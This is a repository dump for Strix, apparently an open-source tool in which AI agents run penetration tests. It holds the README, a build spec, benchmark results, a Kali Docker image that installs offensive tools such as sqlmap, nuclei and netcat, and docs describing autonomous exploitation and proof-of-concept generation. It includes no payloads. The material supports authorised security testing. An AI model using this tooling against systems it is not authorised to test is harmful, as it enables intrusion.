strix -t https://github.com/org/app -t https://your-app.com

# Focused testing with custom instructions
strix --target api.your-app.com --instruction "Focus on business logic flaws and IDOR vulnerabilities"

# Provide detailed instructions through file (e.g., rules of engagement, scope, exclusions)
strix --target api.your-app.com --instruction-file ./instruction.md
```

### Headless Mode

Run Strix programmatically without interactive UI using the `-n/--non-interactive` flag—perfect for servers and automated jobs. The CLI prints real-time vulnerability findings, and the final report before exiting. Exits with non-zero code when vulnerabilities are found.

```bash
strix -n --target https://your-app.com
```

### CI/CD (GitHub Actions)

Strix can be added to your pipeline to run a security test on pull requests with a lightweight GitHub Actions workflow:

```yaml
name: strix-penetration-test

on:
  pull_request:

jobs:
  security-scan:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v6

      - name: Install Strix
        run: curl -sSL https://strix.ai/install | bash

      - name: Run Strix
        env:
          STRIX_LLM: ${{ secrets.STRIX_LLM }}
          LLM_API_KEY: ${{ secrets.LLM_API_KEY }}

        run: strix -n -t ./ --scan-mode quick
```

### Configuration

```bash
export STRIX_LLM="openai/gpt-5"
export LLM_API_KEY='[REDACTED_API_KEY]'

# Optional
export LLM_API_BASE="your-api-base-url"  # if using a local model, e.g. Ollama, LMStudio
export PERPLEXITY_API_KEY='[REDACTED_API_KEY]'  # for search capabilities
export STRIX_REASONING_EFFORT="high"  # control thinking effort (default: high, quick scan: medium)
```

> [!NOTE]
> Strix automatically saves your configuration to `~/.strix/cli-config.json`, so you don't have to re-enter it on every run.

**Recommended models for best results:**

- [OpenAI GPT-5](https://openai.com/api/) — `openai/gpt-5`
- [Anthropic Claude Sonnet 4.6](https://claude.com/platform/api) — `anthropic/claude-sonnet-4-6`
- [Google Gemini 3 Pro Preview](https://cloud.google.com/vertex-ai) — `vertex_ai/gemini-3-pro-preview`

See the [LLM Providers documentation](https://docs.strix.ai/llm-providers/overview) for all supported providers including Vertex AI, Bedrock, Azure, and local models.

## Enterprise

Get the same Strix experience with [enterprise-grade](https://strix.ai/demo) controls: SSO (SAML/OIDC), custom compliance reports, dedicated support & SLA, custom deployment options (VPC/self-hosted), BYOK model support, and tailored agents optimized for your environment. [Learn more](https://strix.ai/demo).

## Documentation

Full documentation is available at **[docs.strix.ai](https://docs.strix.ai)** — including detailed guides for usage, CI/CD integrations, skills, and advanced configuration.

## Contributing

We welcome contributions of code, docs, and new skills - check out our [Contributing Guide](https://docs.strix.ai/contributing) to get started or open a [pull request](https://github.com/usestrix/strix/pulls)/[issue](https://github.com/usestrix/strix/issues).

## Join Our Community

Have questions? Found a bug? Want to contribute? **[Join our Discord!](https://discord.gg/strix-ai)**

## Support the Project

**Love Strix?** Give us a ⭐ on GitHub!

## Acknowledgements

Strix builds on the incredible work of open-source projects like [LiteLLM](https://github.com/BerriAI/litellm), [Caido](https://github.com/caido/caido), [Nuclei](https://github.com/projectdiscovery/nuclei), [Playwright](https://github.com/microsoft/playwright), and [Textual](https://github.com/Textualize/textual). Huge thanks to their maintainers!


> [!WARNING]
> Only test apps you own or have permission to test. You are responsible for using Strix ethically and legally.

</div>
```

## File: `strix.spec`
```
# -*- mode: python ; coding: utf-8 -*-

import sys
from pathlib import Path
from PyInstaller.utils.hooks import collect_data_files, collect_submodules

project_root = Path(SPECPATH)
strix_root = project_root / 'strix'

datas = []

for md_file in strix_root.rglob('skills/**/*.md'):
    rel_path = md_file.relative_to(project_root)
    datas.append((str(md_file), str(rel_path.parent)))

for jinja_file in strix_root.rglob('agents/**/*.jinja'):
    rel_path = jinja_file.relative_to(project_root)
    datas.append((str(jinja_file), str(rel_path.parent)))

for xml_file in strix_root.rglob('*.xml'):
    rel_path = xml_file.relative_to(project_root)
    datas.append((str(xml_file), str(rel_path.parent)))

for tcss_file in strix_root.rglob('*.tcss'):
    rel_path = tcss_file.relative_to(project_root)
    datas.append((str(tcss_file), str(rel_path.parent)))

datas += collect_data_files('textual')

datas += collect_data_files('tiktoken')
datas += collect_data_files('tiktoken_ext')

datas += collect_data_files('litellm')

hiddenimports = [
    # Core dependencies
    'litellm',
    'litellm.llms',
    'litellm.llms.openai',
    'litellm.llms.anthropic',
    'litellm.llms.vertex_ai',
    'litellm.llms.bedrock',
    'litellm.utils',
    'litellm.caching',

    # Textual TUI
    'textual',
    'textual.app',
    'textual.widgets',
    'textual.containers',
    'textual.screen',
    'textual.binding',
    'textual.reactive',
    'textual.css',
    'textual._text_area_theme',

    # Rich console
    'rich',
    'rich.console',
    'rich.panel',
    'rich.text',
    'rich.markup',
    'rich.style',
    'rich.align',
    'rich.live',

    # Pydantic
    'pydantic',
    'pydantic.fields',
    'pydantic_core',
    'email_validator',

    # Docker
    'docker',
    'docker.api',
    'docker.models',
    'docker.errors',

    # HTTP/Networking
    'httpx',
    'httpcore',
    'requests',
    'urllib3',
    'certifi',

    # Jinja2 templating
    'jinja2',
    'jinja2.ext',
    'markupsafe',

    # XML parsing
    'xmltodict',
    'defusedxml',
    'defusedxml.ElementTree',

    # Syntax highlighting
    'pygments',
    'pygments.lexers',
    'pygments.styles',
    'pygments.util',

    # Tiktoken (for token counting)
    'tiktoken',
    'tiktoken_ext',
    'tiktoken_ext.openai_public',

    # Tenacity retry
    'tenacity',

    # CVSS scoring
    'cvss',

    # Strix modules
    'strix',
    'strix.interface',
    'strix.interface.main',
    'strix.interface.cli',
    'strix.interface.tui',
    'strix.interface.utils',
    'strix.interface.tool_components',
    'strix.agents',
    'strix.agents.base_agent',
    'strix.agents.state',
    'strix.agents.StrixAgent',
    'strix.llm',
    'strix.llm.llm',
    'strix.llm.config',
    'strix.llm.utils',
    'strix.llm.memory_compressor',
    'strix.runtime',
    'strix.runtime.runtime',
    'strix.runtime.docker_runtime',
    'strix.telemetry',
    'strix.telemetry.tracer',
    'strix.tools',
    'strix.tools.registry',
    'strix.tools.executor',
    'strix.tools.argument_parser',
    'strix.skills',
]

hiddenimports += collect_submodules('litellm')
hiddenimports += collect_submodules('textual')
hiddenimports += collect_submodules('rich')
hiddenimports += collect_submodules('pydantic')
hiddenimports += collect_submodules('pygments')

excludes = [
    # Sandbox-only packages
    'playwright',
    'playwright.sync_api',
    'playwright.async_api',
    'IPython',
    'ipython',
    'libtmux',
    'pyte',
    'openhands_aci',
    'openhands-aci',
    'gql',
    'fastapi',
    'uvicorn',
    'numpydoc',

    # Google Cloud / Vertex AI
    'google.cloud',
    'google.cloud.aiplatform',
    'google.api_core',
    'google.auth',
    'google.oauth2',
    'google.protobuf',
    'grpc',
    'grpcio',
    'grpcio_status',

    # Test frameworks
    'pytest',
    'pytest_asyncio',
    'pytest_cov',
    'pytest_mock',

    # Development tools
    'mypy',
    'ruff',
    'black',
    'isort',
    'pylint',
    'pyright',
    'bandit',
    'pre_commit',

    # Unnecessary for runtime
    'tkinter',
    'matplotlib',
    'numpy',
    'pandas',
    'scipy',
    'PIL',
    'cv2',
]

a = Analysis(
    ['strix/interface/main.py'],
    pathex=[str(project_root)],
    binaries=[],
    datas=datas,
    hiddenimports=hiddenimports,
    hookspath=[],
    hooksconfig={},
    runtime_hooks=[],
    excludes=excludes,
    noarchive=False,
    optimize=0,
)

pyz = PYZ(a.pure)

exe = EXE(
    pyz,
    a.scripts,
    a.binaries,
    a.datas,
    [],
    name='strix',
    debug=False,
    bootloader_ignore_signals=False,
    strip=False,
    upx=False,
    upx_exclude=[],
    runtime_tmpdir=None,
    console=True,
    disable_windowed_traceback=False,
    argv_emulation=False,
    target_arch=None,
    codesign_identity=None,
    entitlements_file=None,
)
```

## File: `benchmarks/README.md`
```markdown
# Benchmarks

We use security benchmarks to track Strix's capabilities and improvements over time. We plan to add more benchmarks, both existing ones and our own, to help the community evaluate and compare security agents.


## Full Details

For the complete benchmark results, evaluation scripts, and run data, see the [usestrix/benchmarks](https://github.com/usestrix/benchmarks) repository.

> [!NOTE]
> We are actively adding more benchmarks to our evaluation suite.


## Results

| Benchmark | Challenges | Success Rate |
|-----------|------------|--------------|
| [XBEN](https://github.com/usestrix/benchmarks/tree/main/XBEN) | 104 | **96%** |

### XBEN

The [XBOW benchmark](https://github.com/usestrix/benchmarks/tree/main/XBEN) is a set of 104 web security challenges designed to evaluate autonomous penetration testing agents. Each challenge follows a CTF format where the agent must discover and exploit vulnerabilities to extract a hidden flag.

Strix `v0.4.0` achieved a **96% success rate** (100/104 challenges) in black-box mode.



**Performance by Difficulty:**

| Difficulty | Solved | Success Rate |
|------------|--------|--------------|
| Level 1 (Easy) | 45/45 | 100% |
| Level 2 (Medium) | 49/51 | 96% |
| Level 3 (Hard) | 6/8 | 75% |

**Resource Usage:**
- Average solve time: ~19 minutes
- Total cost: ~$337 for 100 challenges
```

## File: `containers/docker-entrypoint.sh`
```bash
#!/bin/bash
set -e

CAIDO_PORT=48080
CAIDO_LOG="/tmp/caido_startup.log"

if [ ! -f /app/certs/ca.p12 ]; then
  echo "ERROR: CA certificate file /app/certs/ca.p12 not found."
  exit 1
fi

caido-cli --listen 0.0.0.0:${CAIDO_PORT} \
          --allow-guests \
          --no-logging \
          --no-open \
          --import-ca-cert /app/certs/ca.p12 \
          --import-ca-cert-pass "" > "$CAIDO_LOG" 2>&1 &

CAIDO_PID=$!
echo "Started Caido with PID $CAIDO_PID on port $CAIDO_PORT"

echo "Waiting for Caido API to be ready..."
CAIDO_READY=false
for i in {1..30}; do
  if ! kill -0 $CAIDO_PID 2>/dev/null; then
    echo "ERROR: Caido process died while waiting for API (iteration $i)."
    echo "=== Caido log ==="
    cat "$CAIDO_LOG" 2>/dev/null || echo "(no log available)"
    exit 1
  fi

  if curl -s -o /dev/null -w "%{http_code}" http://localhost:${CAIDO_PORT}/graphql/ | grep -qE "^(200|400)$"; then
    echo "Caido API is ready (attempt $i)."
    CAIDO_READY=true
    break
  fi
  sleep 1
done

if [ "$CAIDO_READY" = false ]; then
  echo "ERROR: Caido API did not become ready within 30 seconds."
  echo "Caido process status: $(kill -0 $CAIDO_PID 2>&1 && echo 'running' || echo 'dead')"
  echo "=== Caido log ==="
  cat "$CAIDO_LOG" 2>/dev/null || echo "(no log available)"
  exit 1
fi

sleep 2

echo "Fetching API token..."
TOKEN=""
for attempt in 1 2 3 4 5; do
  RESPONSE=$(curl -sL -X POST \
    -H "Content-Type: application/json" \
    -d '{"query":"mutation LoginAsGuest { loginAsGuest { token { accessToken } } }"}' \
    http://localhost:${CAIDO_PORT}/graphql)

  TOKEN=$(echo "$RESPONSE" | jq -r '.data.loginAsGuest.token.accessToken // empty')

  if [ -n "$TOKEN" ] && [ "$TOKEN" != "null" ]; then
    echo "Successfully obtained API token (attempt $attempt)."
    break
  fi

  echo "Token fetch attempt $attempt failed: $RESPONSE"
  sleep $((attempt * 2))
done

if [ -z "$TOKEN" ] || [ "$TOKEN" == "null" ]; then
  echo "ERROR: Failed to get API token from Caido after 5 attempts."
  echo "=== Caido log ==="
  cat "$CAIDO_LOG" 2>/dev/null || echo "(no log available)"
  exit 1
fi

export CAIDO_API_TOKEN=$TOKEN
echo "Caido API token has been set."

echo "Creating a new Caido project..."
CREATE_PROJECT_RESPONSE=$(curl -sL -X POST \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer $TOKEN" \
  -d '{"query":"mutation CreateProject { createProject(input: {name: \"sandbox\", temporary: true}) { project { id } } }"}' \
  http://localhost:${CAIDO_PORT}/graphql)

PROJECT_ID=$(echo $CREATE_PROJECT_RESPONSE | jq -r '.data.createProject.project.id')

if [ -z "$PROJECT_ID" ] || [ "$PROJECT_ID" == "null" ]; then
  echo "Failed to create Caido project."
  echo "Response: $CREATE_PROJECT_RESPONSE"
  exit 1
fi

echo "Caido project created with ID: $PROJECT_ID"

echo "Selecting Caido project..."
SELECT_RESPONSE=$(curl -sL -X POST \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer $TOKEN" \
  -d '{"query":"mutation SelectProject { selectProject(id: \"'$PROJECT_ID'\") { currentProject { project { id } } } }"}' \
  http://localhost:${CAIDO_PORT}/graphql)

SELECTED_ID=$(echo $SELECT_RESPONSE | jq -r '.data.selectProject.currentProject.project.id')

if [ "$SELECTED_ID" != "$PROJECT_ID" ]; then
    echo "Failed to select Caido project."
    echo "Response: $SELECT_RESPONSE"
    exit 1
fi

echo "✅ Caido project selected successfully."

echo "Configuring system-wide proxy settings..."

cat << EOF | sudo tee /etc/profile.d/proxy.sh
export http_proxy=http://127.0.0.1:${CAIDO_PORT}
export https_proxy=http://127.0.0.1:${CAIDO_PORT}
export HTTP_PROXY=http://127.0.0.1:${CAIDO_PORT}
export HTTPS_PROXY=http://127.0.0.1:${CAIDO_PORT}
export ALL_PROXY=http://127.0.0.1:${CAIDO_PORT}
export REQUESTS_CA_BUNDLE=/etc/ssl/certs/ca-certificates.crt
export SSL_CERT_FILE=/etc/ssl/certs/ca-certificates.crt
export CAIDO_API_TOKEN=${TOKEN}
EOF

cat << EOF | sudo tee /etc/environment
http_proxy=http://127.0.0.1:${CAIDO_PORT}
https_proxy=http://127.0.0.1:${CAIDO_PORT}
HTTP_PROXY=http://127.0.0.1:${CAIDO_PORT}
HTTPS_PROXY=http://127.0.0.1:${CAIDO_PORT}
ALL_PROXY=http://127.0.0.1:${CAIDO_PORT}
CAIDO_API_TOKEN=${TOKEN}
EOF

cat << EOF | sudo tee /etc/wgetrc
use_proxy=yes
http_proxy=http://127.0.0.1:${CAIDO_PORT}
https_proxy=http://127.0.0.1:${CAIDO_PORT}
EOF

echo "source /etc/profile.d/proxy.sh" >> ~/.bashrc
echo "source /etc/profile.d/proxy.sh" >> ~/.zshrc

source /etc/profile.d/proxy.sh

echo "✅ System-wide proxy configuration complete"

echo "Adding CA to browser trust store..."
sudo -u pentester mkdir -p /home/pentester/.pki/nssdb
sudo -u pentester certutil -N -d sql:/home/pentester/.pki/nssdb --empty-password
sudo -u pentester certutil -A -n "Testing Root CA" -t "C,," -i /app/certs/ca.crt -d sql:/home/pentester/.pki/nssdb
echo "✅ CA added to browser trust store"

echo "Starting tool server..."
cd /app
export PYTHONPATH=/app
export STRIX_SANDBOX_MODE=true
export POETRY_VIRTUALENVS_CREATE=false
export TOOL_SERVER_TIMEOUT="${STRIX_SANDBOX_EXECUTION_TIMEOUT:-120}"
TOOL_SERVER_LOG="/tmp/tool_server.log"

sudo -E -u pentester \
  poetry run python -m strix.runtime.tool_server \
  --token="$TOOL_SERVER_TOKEN" \
  --host=0.0.0.0 \
  --port="$TOOL_SERVER_PORT" \
  --timeout="$TOOL_SERVER_TIMEOUT" > "$TOOL_SERVER_LOG" 2>&1 &

for i in {1..10}; do
  if curl -s "http://127.0.0.1:$TOOL_SERVER_PORT/health" | grep -q '"status":"healthy"'; then
    echo "✅ Tool server healthy on port $TOOL_SERVER_PORT"
    break
  fi
  if [ $i -eq 10 ]; then
    echo "ERROR: Tool server failed to become healthy"
    echo "=== Tool server log ==="
    cat "$TOOL_SERVER_LOG" 2>/dev/null || echo "(no log)"
    exit 1
  fi
  sleep 1
done

echo "✅ Container ready"

cd /workspace
exec "$@"
```

## File: `containers/Dockerfile`
```
FROM kalilinux/kali-rolling:latest

LABEL description="AI Agent Penetration Testing Environment with Comprehensive Automated Tools"

RUN apt-get update && \
    apt-get install -y kali-archive-keyring sudo && \
    apt-get update && \
    apt-get upgrade -y

RUN useradd -m -s /bin/bash pentester && \
    usermod -aG sudo pentester && \
    echo "pentester ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers && \
    touch /home/pentester/.hushlogin

RUN mkdir -p /home/pentester/configs \
             /home/pentester/wordlists \
             /home/pentester/output \
             /home/pentester/scripts \
             /home/pentester/tools \
             /app/runtime \
             /app/tools \
             /app/certs && \
    chown -R pentester:pentester /app/certs /home/pentester/tools

RUN apt-get update && \
    apt-get install -y --no-install-recommends \
    wget curl git vim nano unzip tar \
    apt-transport-https ca-certificates gnupg lsb-release \
    build-essential software-properties-common \
    gcc libc6-dev pkg-config libpcap-dev libssl-dev \
    python3 python3-pip python3-dev python3-venv python3-setuptools \
    golang-go \
    net-tools dnsutils whois \
    jq parallel ripgrep grep \
    less man-db procps htop \
    iproute2 iputils-ping netcat-traditional \
    nmap ncat ndiff \
    sqlmap nuclei subfinder naabu ffuf \
    nodejs npm pipx \
    libcap2-bin \
    gdb \
    tmux \
    libnss3 libnspr4 libdbus-1-3 libatk1.0-0 libatk-bridge2.0-0 libcups2 libdrm2 libatspi2.0-0 \
    libxcomposite1 libxdamage1 libxfixes3 libxrandr2 libgbm1 libxkbcommon0 libpango-1.0-0 libcairo2 libasound2t64 \
    fonts-unifont fonts-noto-color-emoji fonts-freefont-ttf fonts-dejavu-core ttf-bitstream-vera \
    libnss3-tools


RUN setcap cap_net_raw,cap_net_admin,cap_net_bind_service+eip $(which nmap)

USER pentester
RUN openssl ecparam -name prime256v1 -genkey -noout -out /app/certs/ca.key && \
    openssl req -x509 -new -key /app/certs/ca.key \
    -out /app/certs/ca.crt \
    -days 3650 \
    -subj "/C=US/ST=CA/O=Security Testing/CN=Testing Root CA" \
    -addext "basicConstraints=critical,CA:TRUE" \
    -addext "keyUsage=critical,digitalSignature,keyEncipherment,keyCertSign" && \
    openssl pkcs12 -export \
    -out /app/certs/ca.p12 \
    -inkey /app/certs/ca.key \
    -in /app/certs/ca.crt \
    -passout pass:"" \
    -name "Testing Root CA" && \
    chmod 644 /app/certs/ca.crt && \
    chmod 600 /app/certs/ca.key && \
    chmod 600 /app/certs/ca.p12

USER root
RUN cp /app/certs/ca.crt /usr/local/share/ca-certificates/ca.crt && \
    update-ca-certificates

RUN curl -sSL https://install.python-poetry.org | POETRY_HOME=/opt/poetry python3 - && \
    ln -s /opt/poetry/bin/poetry /usr/local/bin/poetry && \
    chmod +x /usr/local/bin/poetry && \
    python3 -m venv /app/venv && \
    chown -R pentester:pentester /app/venv /opt/poetry

USER pentester
WORKDIR /tmp

RUN go install -v github.com/projectdiscovery/httpx/cmd/httpx@latest && \
    go install -v github.com/projectdiscovery/katana/cmd/katana@latest && \
    go install -v github.com/projectdiscovery/cvemap/cmd/vulnx@latest && \
    go install -v github.com/jaeles-project/gospider@latest && \
    go install -v github.com/projectdiscovery/interactsh/cmd/interactsh-client@latest

RUN nuclei -update-templates

RUN pipx install arjun && \
    pipx install dirsearch && \
    pipx inject dirsearch setuptools && \
    pipx install wafw00f

ENV NPM_CONFIG_PREFIX=/home/pentester/.npm-global
RUN mkdir -p /home/pentester/.npm-global

RUN npm install -g retire@latest && \
    npm install -g eslint@latest && \
    npm install -g js-beautify@latest

WORKDIR /home/pentester/tools
RUN git clone https://github.com/aravind0x7/JS-Snooper.git && \
    chmod +x JS-Snooper/js_snooper.sh && \
    git clone https://github.com/xchopath/jsniper.sh.git && \
    chmod +x jsniper.sh/jsniper.sh && \
    git clone https://github.com/ticarpi/jwt_tool.git && \
    chmod +x jwt_tool/jwt_tool.py

USER root

RUN curl -sSfL https://raw.githubusercontent.com/trufflesecurity/trufflehog/main/scripts/install.sh | sh -s -- -b /usr/local/bin

RUN apt-get update && apt-get install -y zaproxy

RUN curl -sfL https://raw.githubusercontent.com/aquasecurity/trivy/main/contrib/install.sh | sh -s -- -b /usr/local/bin

RUN apt-get install -y wapiti

USER pentester

RUN pipx install semgrep && \
    pipx install bandit

RUN npm install -g jshint

USER root

RUN apt-get autoremove -y && \
    apt-get autoclean && \
    rm -rf /var/lib/apt/lists/* /tmp/* /var/tmp/*

ENV PATH="/home/pentester/go/bin:/home/pentester/.local/bin:/home/pentester/.npm-global/bin:/app/venv/bin:$PATH"
ENV VIRTUAL_ENV="/app/venv"
ENV POETRY_HOME="/opt/poetry"

WORKDIR /app

RUN ARCH=$(uname -m) && \
    if [ "$ARCH" = "x86_64" ]; then \
        CAIDO_ARCH="x86_64"; \
    elif [ "$ARCH" = "aarch64" ] || [ "$ARCH" = "arm64" ]; then \
        CAIDO_ARCH="aarch64"; \
    else \
        echo "Unsupported architecture: $ARCH" && exit 1; \
    fi && \
    wget -O caido-cli.tar.gz https://caido.download/releases/v0.48.0/caido-cli-v0.48.0-linux-${CAIDO_ARCH}.tar.gz && \
    tar -xzf caido-cli.tar.gz && \
    chmod +x caido-cli && \
    rm caido-cli.tar.gz && \
    mv caido-cli /usr/local/bin/

ENV STRIX_SANDBOX_MODE=true
ENV PYTHONPATH=/app
ENV REQUESTS_CA_BUNDLE=/etc/ssl/certs/ca-certificates.crt
ENV SSL_CERT_FILE=/etc/ssl/certs/ca-certificates.crt

RUN mkdir -p /workspace && chown -R pentester:pentester /workspace /app

COPY pyproject.toml poetry.lock ./

USER pentester
RUN poetry install --no-root --without dev --extras sandbox
RUN poetry run playwright install chromium

RUN /app/venv/bin/pip install -r /home/pentester/tools/jwt_tool/requirements.txt && \
    ln -s /home/pentester/tools/jwt_tool/jwt_tool.py /home/pentester/.local/bin/jwt_tool

RUN echo "# Sandbox Environment" > README.md

COPY strix/__init__.py strix/
COPY strix/config/ /app/strix/config/
COPY strix/utils/ /app/strix/utils/
COPY strix/telemetry/ /app/strix/telemetry/
COPY strix/runtime/tool_server.py strix/runtime/__init__.py strix/runtime/runtime.py /app/strix/runtime/

COPY strix/tools/__init__.py strix/tools/registry.py strix/tools/executor.py strix/tools/argument_parser.py strix/tools/context.py /app/strix/tools/

COPY strix/tools/browser/ /app/strix/tools/browser/
COPY strix/tools/file_edit/ /app/strix/tools/file_edit/
COPY strix/tools/notes/ /app/strix/tools/notes/
COPY strix/tools/python/ /app/strix/tools/python/
COPY strix/tools/terminal/ /app/strix/tools/terminal/
COPY strix/tools/proxy/ /app/strix/tools/proxy/

RUN echo 'export PATH="/home/pentester/go/bin:/home/pentester/.local/bin:/home/pentester/.npm-global/bin:$PATH"' >> /home/pentester/.bashrc && \
    echo 'export PATH="/home/pentester/go/bin:/home/pentester/.local/bin:/home/pentester/.npm-global/bin:$PATH"' >> /home/pentester/.profile

USER root
COPY containers/docker-entrypoint.sh /usr/local/bin/docker-entrypoint.sh
RUN chmod +x /usr/local/bin/docker-entrypoint.sh

USER pentester
WORKDIR /workspace

ENTRYPOINT ["docker-entrypoint.sh"]
```

## File: `docs/contributing.mdx`
```
---
title: "Contributing"
description: "Contribute to Strix development"
---

## Development Setup

### Prerequisites

- Python 3.12+
- Docker (running)
- Poetry
- Git

### Local Development

<Steps>
  <Step title="Clone the repository">
    ```bash
    git clone https://github.com/usestrix/strix.git
    cd strix
    ```
  </Step>
  <Step title="Install dependencies">
    ```bash
    make setup-dev

    # or manually:
    poetry install --with=dev
    poetry run pre-commit install
    ```
  </Step>
  <Step title="Configure LLM">
    ```bash
    export STRIX_LLM="openai/gpt-5"
    export LLM_API_KEY="your-api-key"
    ```
  </Step>
  <Step title="Run Strix">
    ```bash
    poetry run strix --target https://example.com
    ```
  </Step>
</Steps>

## Contributing Skills

Skills are specialized knowledge packages that enhance agent capabilities. They live in `strix/skills/`

### Creating a Skill

1. Choose the right category
2. Create a `.md` file with YAML frontmatter (`name` and `description` fields)
3. Include practical examples—working payloads, commands, test cases
4. Provide validation methods to confirm findings
5. Submit via PR

## Contributing Code

### Pull Request Process

1. **Create an issue first** — Describe the problem or feature
2. **Fork and branch** — Work from `main`
3. **Make changes** — Follow existing code style
4. **Write tests** — Ensure coverage for new features
5. **Run checks** — `make check-all` should pass
6. **Submit PR** — Link to issue and provide context

### Code Style

- PEP 8 with 100-character line limit
- Type hints for all functions
- Docstrings for public methods
- Small, focused functions
- Meaningful variable names

## Reporting Issues

Include:

- Python version and OS
- Strix version (`strix --version`)
- LLM being used
- Full error traceback
- Steps to reproduce

## Community

<CardGroup cols={2}>
  <Card title="Discord" icon="discord" href="https://discord.gg/strix-ai">
    Join the community for help and discussion.
  </Card>
  <Card title="GitHub Issues" icon="github" href="https://github.com/usestrix/strix/issues">
    Report bugs and request features.
  </Card>
</CardGroup>
```

## File: `docs/docs.json`
```json
{
  "$schema": "https://mintlify.com/docs.json",
  "theme": "maple",
  "name": "Strix",
  "colors": {
    "primary": "#000000",
    "light": "#ffffff",
    "dark": "#000000"
  },
  "favicon": "/images/favicon-48.ico",
  "navigation": {
    "tabs": [
      {
        "tab": "Documentation",
        "groups": [
          {
            "group": "Getting Started",
            "pages": [
              "index",
              "quickstart"
            ]
          },
          {
            "group": "Usage",
            "pages": [
              "usage/cli",
              "usage/scan-modes",
              "usage/instructions"
            ]
          },
          {
            "group": "LLM Providers",
            "pages": [
              "llm-providers/overview",
              "llm-providers/models",
              "llm-providers/openai",
              "llm-providers/anthropic",
              "llm-providers/openrouter",
              "llm-providers/vertex",
              "llm-providers/bedrock",
              "llm-providers/azure",
              "llm-providers/local"
            ]
          },
          {
            "group": "Integrations",
            "pages": [
              "integrations/github-actions",
              "integrations/ci-cd"
            ]
          },
          {
            "group": "Tools",
            "pages": [
              "tools/overview",
              "tools/browser",
              "tools/proxy",
              "tools/terminal",
              "tools/sandbox"
            ]
          },
          {
            "group": "Advanced",
            "pages": [
              "advanced/configuration",
              "advanced/skills",
              "contributing"
            ]
          }
        ]
      },
      {
        "tab": "Cloud",
        "groups": [
          {
            "group": "Strix Cloud",
            "pages": [
              "cloud/overview"
            ]
          }
        ]
      }
    ],
    "global": {
      "anchors": [
        {
          "anchor": "GitHub",
          "href": "https://github.com/usestrix/strix",
          "icon": "github"
        },
        {
          "anchor": "Discord",
          "href": "https://discord.gg/strix-ai",
          "icon": "discord"
        }
      ]
    }
  },
  "navbar": {
    "links": [],
    "primary": {
      "type": "button",
      "label": "Try Strix Cloud",
      "href": "https://app.strix.ai"
    }
  },
  "footer": {
    "socials": {
      "x": "https://x.com/strix_ai",
      "github": "https://github.com/usestrix",
      "discord": "https://discord.gg/strix-ai"
    }
  },
  "fonts": {
    "family": "Geist",
    "heading": {
      "family": "Geist"
    },
    "body": {
      "family": "Geist"
    }
  },
  "appearance": {
    "default": "dark"
  },
  "description": "Open-source AI Hackers to secure your Apps",
  "background": {
    "decoration": "grid"
  }
}
```

## File: `docs/index.mdx`
```
---
title: "Introduction"
description: "Open-source AI hackers to secure your apps"
---

Strix are autonomous AI agents that act like real hackers—they run your code dynamically, find vulnerabilities, and validate them with proof-of-concepts. Built for developers and security teams who need fast, accurate security testing without the overhead of manual pentesting or the false positives of static analysis tools.

<Frame>
  
</Frame>

<CardGroup cols={2}>
  <Card title="Quick Start" icon="rocket" href="/quickstart">
    Install and run your first scan in minutes.
  </Card>
  <Card title="CLI Reference" icon="terminal" href="/usage/cli">
    Learn all command-line options.
  </Card>
  <Card title="Tools" icon="wrench" href="/tools/overview">
    Explore the security testing toolkit.
  </Card>
  <Card title="GitHub Actions" icon="github" href="/integrations/github-actions">
    Integrate into your CI/CD pipeline.
  </Card>
</CardGroup>

## Use Cases

- **Application Security Testing** — Detect and validate critical vulnerabilities in your applications
- **Rapid Penetration Testing** — Get penetration tests done in hours, not weeks
- **Bug Bounty Automation** — Automate research and generate PoCs for faster reporting
- **CI/CD Integration** — Block vulnerabilities before they reach production

## Key Capabilities

- **Full hacker toolkit** — Browser automation, HTTP proxy, terminal, Python runtime
- **Real validation** — PoCs, not false positives
- **Multi-agent orchestration** — Specialized agents collaborate on complex targets
- **Developer-first CLI** — Interactive TUI or headless mode for automation

## Security Tools

Strix agents come equipped with a comprehensive toolkit:

| Tool | Purpose |
|------|---------|
| HTTP Proxy | Full request/response manipulation and analysis |
| Browser Automation | Multi-tab browser for XSS, CSRF, auth flow testing |
| Terminal | Interactive shells for command execution |
| Python Runtime | Custom exploit development and validation |
| Reconnaissance | Automated OSINT and attack surface mapping |
| Code Analysis | Static and dynamic analysis capabilities |

## Vulnerability Coverage

| Category | Examples |
|----------|----------|
| Access Control | IDOR, privilege escalation, auth bypass |
| Injection | SQL, NoSQL, command injection |
| Server-Side | SSRF, XXE, deserialization |
| Client-Side | XSS, prototype pollution, DOM vulnerabilities |
| Business Logic | Race conditions, workflow manipulation |
| Authentication | JWT vulnerabilities, session management |
| Infrastructure | Misconfigurations, exposed services |

## Multi-Agent Architecture

Strix uses a graph of specialized agents for comprehensive security testing:

- **Distributed Workflows** — Specialized agents for different attacks and assets
- **Scalable Testing** — Parallel execution for fast comprehensive coverage
- **Dynamic Coordination** — Agents collaborate and share discoveries

## Quick Example

```bash
# Install
curl -sSL https://strix.ai/install | bash

# Configure
export STRIX_LLM="openai/gpt-5"
export LLM_API_KEY="your-api-key"

# Scan
strix --target ./your-app
```

## Community

<CardGroup cols={2}>
  <Card title="Discord" icon="discord" href="https://discord.gg/strix-ai">
    Join the community for help and discussion.
  </Card>
  <Card title="GitHub" icon="github" href="https://github.com/usestrix/strix">
    Star the repo and contribute.
  </Card>
</CardGroup>

<Warning>
Only test applications you own or have explicit permission to test.
</Warning>
```

## File: `docs/quickstart.mdx`
```
---
title: "Quick Start"
description: "Install Strix and run your first security scan"
---

## Prerequisites

- Docker (running)
- An LLM API key — use [Strix Router](/llm-providers/models) for the easiest setup, or bring your own key from any [supported provider](/llm-providers/overview)

## Installation

<Tabs>
  <Tab title="curl">
    ```bash
    curl -sSL https://strix.ai/install | bash
    ```
  </Tab>
  <Tab title="pipx">
    ```bash
    pipx install strix-agent
    ```
  </Tab>
</Tabs>

## Configuration

Set your LLM provider:

<Tabs>
  <Tab title="Strix Router">
    ```bash
    export STRIX_LLM="strix/gpt-5"
    export LLM_API_KEY="your-strix-api-key"
    ```
  </Tab>
  <Tab title="Bring Your Own Key">
    ```bash
    export STRIX_LLM="openai/gpt-5"
    export LLM_API_KEY="your-api-key"
    ```
  </Tab>
</Tabs>

<Tip>
For best results, use `strix/gpt-5`, `strix/claude-opus-4.6`, or `strix/gpt-5.2`.
</Tip>

## Run Your First Scan

```bash
strix --target ./your-app
```

<Note>
First run pulls the Docker sandbox image automatically. Results are saved to `strix_runs/<run-name>`.
</Note>

## Target Types

